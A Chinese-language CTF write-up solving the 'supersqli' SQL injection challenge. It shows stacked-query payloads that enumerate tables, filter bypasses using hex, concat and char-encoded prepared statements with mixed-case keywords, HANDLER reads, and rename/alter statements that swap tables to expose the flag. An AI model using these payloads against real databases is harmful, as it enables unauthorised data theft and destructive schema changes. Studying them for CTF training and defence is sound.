 # supersqli  | 强网杯 2019 随便注



![image-20220602220016590](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220016590.png)

https://github.com/over-hit/ctf-writeup/blob/f268b9fcdc5a7cb23fc25cf92085e22b5711e47f/%E5%9B%BE%E5%83%8F/image-20220602215342959.png
上来不多说直接测试，这里直接报错

```sql
1' and 1=1#
```



![image-20220602220205878](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220205878.png)

![image-20220602220247668](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220247668.png)

尝试另一种注释符号就可以正常注入了

```sql
1' and 1=1 --+
```

```sql
1' and 1=2 --+
```



![image-20220602220356089](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220356089.png)

直接order by 测试字段数，最多可三列

```sql
1' order by 3#
```



![image-20220602220540117](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220540117.png)

再尝试select查询，发现被 preg_match函数过滤了这些关键字

```
preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```







![image-20220602220956608](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220956608.png)

多试几遍可以发现这个查询语句可以分号隔开，多语句查询的堆叠注入，那就有各种骚操作了

```sql
1';  show databases    ;#
```



![image-20220602221626553](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602221626553.png)

也可以用extractvalue爆库

```sql
1' and extractvalue(1,concat(0x7e,databse())) #
```





这里有个有意思的点， 注释的时候，如果用 # 注释，就需要把分号写上，否则会报错。然而用 --+ 则不会有这种问题

1：![image-20220602222120091](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222120091.png)

2：

![image-20220602222203218](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222203218.png)

3：![image-20220602222211612](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222211612.png)







![image-20220602222507939](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222507939.png)

接下来就是爆数据表的操作，select会被过滤，可以用show语句查询，执行成功出现两个表，因为已经做过了，所以知道是第一个表也不多浪费时间

```sql
1'; show tables from supersqli --+
```



![image-20220602222943716](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222943716.png)

还是用show查询表的字段名，这里记得把表名用反引号括上，否则查询不出来，反引号可以让查询的字段不会变成关键字

```sql
1'; show columns from `1919810931114514` --+
```



![image-20220602223038327](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223038327.png)

或者可以用desc查询表字段

```sql
1'; desc `1919810931114514` --+
```



最后就是各种查flag的操作了，目前已知有三种操作

一是handler查询

>   mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
>   HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

这里只做简单介绍，详细了解可以去https://blog.csdn.net/JesseYoung/article/details/40785137



![image-20220602223926943](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223926943.png)

payload:

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first  --+
```







二是预处理查询

虽然select被过滤，但是可以用set设置变量，这个变量可以编译成16进制、concat构造语句或是ascii码，当然也可以用concat直接构造语句不用设置变量

prepare 是预编译语句，会进行编码转换

最后用execute执行该语句

一个额外的知识点，select可以设置多个变量，而set只能设置一个



这里注意，set与prepare要改改成大写，或者大小写一起，否则会被strstr过滤，这个函数只过滤相应的格式，可以用大小写绕过

![image-20220603101542020](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603101542020.png)



payload1:

```sql
1';SEt @test=0x73656c656374202a2066726f6d2020603139313938313039333131313435313460; prEpare  payload from @test;execute payload;#
```

payload2:

```sql
1';Set @test=concat('sel','ect * from `1919810931114514`');pREpare payload from @test;execute payload;#
```

payload3:

```sql
1';PrePare payload from 
concat('sel','ect * from `1919810931114514`');execute payload;#
```

payload4:

```sql
1'; Set @test=char(115, 101, 108, 101, 99, 116, 32, 42, 32, 32, 102, 114, 111, 109, 32, 96, 49, 57, 49, 57, 56, 49, 48, 57, 51, 49, 49, 49, 52, 53, 49, 52, 96);PRepare payload from @test;execute payload;#
```







三是最骚的一个操作，把有flag的表数据插到正常查询的表里去



查words这个表可以看到两个字段，猜测查询语句可能为：

```sql
select * from words where id='$id';
```

![image-20220603111006385](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603111006385.png)

那么就可以设想一下把数据插到这个表：

```sql
select * from `1919810931114514` where flag='$id';
```



接下来构造payload，将words改成其他表名，把1919810931114514这个表改成words，并添加字段

payload:

```sql
1';
rename table `words` to `another`;
rename table `1919810931114514` to `words`;
alter table `words` change `flag` 
`id` varchar(100) character set utf8 collate utf8_general_ci NOT NULL;#
```





![image-20220603113207316](image-20220603113207316.png)

最后要用万能密码查询

